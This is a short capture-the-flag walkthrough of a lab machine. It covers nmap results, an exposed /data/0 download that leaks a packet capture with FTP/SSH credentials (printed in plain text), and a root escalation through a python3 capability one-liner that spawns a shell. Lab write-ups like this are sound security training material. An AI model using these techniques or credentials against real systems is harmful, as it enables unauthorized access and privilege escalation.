

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
```
## User
Let's have a look at the website first. We can run different tools, we can see ipconfig, netstat and we can capture pcap files for five seconds and download them afterwards. A lot to look at but there wasn't any command injection or anything similar possible.

However we noticed, that after we captured our pcap file we get redirected to /data/1 to download it. So what's /data/0 ?


Analyzing the 0.pcap file we find something interesting:



Sweet we got credentials for FTP, maybe they work for ssh aswell?
```
ssh nathan@10.129.151.106 with password: Buck3tH4TF0RM3!
```
They do.

## Root
First thing we always do is running [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) with -a parameter in a ctf environment.
Linpeas finds something interesting:


A fast duckduckgo research brings us here: https://gtfobins.github.io/gtfobins/python/#capabilities


Let's try that.

```bash
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
```